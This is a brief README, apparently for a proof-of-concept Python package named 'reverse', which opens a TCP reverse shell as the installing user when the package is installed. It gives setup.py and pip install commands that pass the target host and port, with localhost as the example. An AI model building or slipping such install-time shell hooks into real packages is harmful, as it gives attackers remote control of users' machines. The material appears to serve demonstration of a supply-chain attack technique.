 pip in peace - reverse
======================

The reverse package spawns a tcp reverse shell as the user running the install to the host and the port specified by the `--host` and `--port` flags.

setup.py
--------

```
    python3 setup.py install --host=127.0.0.1 --port=12345
```

pip
---

```
    pip3 install . --install-option='--host=127.0.0.1' --install-option='--port=12345'
```
